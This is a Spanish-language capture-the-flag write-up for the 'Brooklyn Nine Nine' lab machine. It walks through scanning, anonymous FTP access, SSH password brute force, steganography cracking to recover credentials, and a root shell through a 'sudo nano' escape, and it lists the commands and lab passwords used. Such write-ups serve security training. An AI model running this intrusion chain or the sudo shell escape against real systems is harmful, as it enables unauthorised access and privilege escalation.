# Write-up Brooklyn Nine Nine

## Enumeracion

### Escaneo inicial

Empiezo con un escaneo para ver puertos, servicios y lo que puede haber expuesto:

`nmap -sC -sV -O -T4 IP`

Puertos encontrados:

- 21/tcp FTP - `vsftpd 3.0.3`
- 22/tcp SSH
- 80/tcp HTTP - `Apache 2.4.29`

Ademas, el escaneo ya deja ver un detalle util: en el FTP hay un archivo llamado `note_to_jake.txt`, y el servicio permite acceso `anonymous`.



### Enumeracion web

Lanzo `gobuster` para ver si encuentro directorios interesantes:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

No encuentro nada util por esa via.

Al entrar en la web solo veo una imagen, pero al inspeccionar el codigo fuente aparece una referencia a esteganografia, asi que decido descargar esa imagen para revisarla luego con mas calma.



### Acceso por FTP

Me conecto al FTP con acceso anonimo:

`ftp IP`

Credenciales usadas:

- Usuario: `anonymous`
- Password: vacia

Una vez dentro, me descargo el archivo disponible con:

`mget *`



Al leer `note_to_jake.txt` veo una pista importante: la password de `jake` es muy debil.



## Explotacion

### Fuerza bruta por SSH contra `jake`

Con la pista del FTP, pruebo fuerza bruta por SSH y consigo la credencial:

- Usuario: `jake`
- Password: `987654321`



### Analisis de la imagen

Primero pruebo con `binwalk` y `steghide`, pero no sacan nada directamente.

Asi que cambio de enfoque y uso `stegcracker` contra la imagen descargada:

`stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt`

La password encontrada es:

`admin`



### Extraccion del contenido oculto

Con esa password ya puedo extraer el contenido de la imagen:

`steghide extract -sf brooklyn99.jpg`

Extraigo un archivo `note.txt` que contiene estas credenciales:

- Usuario: `Holt`
- Password: `fluffydog12@ninenine`

Parece que ya tengo un segundo usuario valido con su password.

Nota: el usuario real es `holt`, no `holts`. Parece que han querido despistar con un pequeno error ortografico.



## Post-explotacion

### Acceso por SSH

Pruebo acceso tanto con `holt` como con `jake`:

`ssh holt@IP`

`ssh jake@IP`




Una vez dentro veo que tienen permisos distintos:

- `jake` puede usar `less` para leer archivos como si fuera `root`.
- `holt` puede ejecutar `nano` con `sudo` sin password.

Decido tirar por la via de `holt`, porque me da una escalada completa y no solo lectura de archivos.

## Escalado de privilegios

### Shell root con `nano`

Busco la tecnica en GTFOBins y veo que `nano` se puede convertir en shell si se ejecuta con `sudo`.

Lanzo:

`sudo nano`

Dentro de `nano` hago:

`CTRL + R`

`CTRL + X`

Y cuando pide el comando, introduzco:

`reset; sh 1>&0 2>&0`



Eso me abre una shell como `root`.




### Opcional: acceso a la flag con `jake`

Con `jake` no saco shell root, pero si puedo leer archivos de `root` usando `less`. Por ejemplo:

`less /root/root.txt`




## Resultado

Consigo acceso total a la maquina encadenando una pista en la web sobre esteganografia, acceso anonimo al FTP, fuerza bruta por SSH para `jake`, extraccion de credenciales ocultas para `holt` y, finalmente, una escalada a `root` abusando de `sudo nano`.

## Resumen de comandos hasta root

- `nmap -sC -sV -O -T4 IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `ftp IP`
- `mget *`
- `stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt`
- `steghide extract -sf brooklyn99.jpg`
- `ssh holt@IP`
- `sudo nano`
- `reset; sh 1>&0 2>&0`
